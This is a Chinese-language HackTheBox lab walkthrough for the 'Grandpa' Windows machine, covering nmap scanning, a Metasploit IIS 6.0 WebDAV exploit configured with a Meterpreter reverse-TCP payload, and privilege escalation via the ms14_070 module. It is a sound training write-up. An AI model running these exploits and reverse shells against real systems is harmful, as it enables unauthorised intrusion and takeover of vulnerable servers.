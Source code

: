```yaml
---
title: Hackthebox::Grandpa walkthrough
date: 2021/12/14
categories: 渗透测试
tags: [渗透测试,walkthrough]
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
---
```


- **Grandpa是hackthebox上一台难度为简单的windows靶机**

# 信息收集

- 首先使用nmap扫描一下端口情况

![image-20211227230552901](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230552901.png)

- 然后使用nmap扫描一下是否存在漏洞

![image-20211227230757330](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230757330.png)

- 通过两次nmap的扫描，我们得知靶机开放了80端口，并且存在漏洞
- 使用searchsploit扫描`Microsoft IIS httpd 6.0`服务，看看是否有可以被利用的漏洞

![image-20211227231051633](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231051633.png)

- 我们发现了许多可以使用的脚本，再次使用msf查看是否可以利用‘

![image-20211227231247078](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231247078.png)

- 我们发现了可以利用的部分，我们使用第二个

```shell
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.129.166.10    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

- 我们成功进入了，但是很可惜我们的权限不足

![image-20211227231707825](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231707825.png)

- 我们将迁移进程，并且寻找合适的漏洞利用脚本来入侵
- 迁移进程

![image-20211227231911796](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231911796.png)

# 漏洞利用

- 使用suggester查看可以利用漏洞的脚本

![image-20211227232427257](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227232427257.png)

- 我们发现了以下可以使用的方式，我们选择`exploit/windows/local/ms14_070_tcpip_ioctl`

![image-20211227233022025](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233022025.png)

- 完成设置

![image-20211227233230168](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233230168.png)

- 好的，我们成功了，获得了最高权限

![image-20211227233425946](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233425946.png)

- 查看flag

![image-20211227233646152](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233646152.png)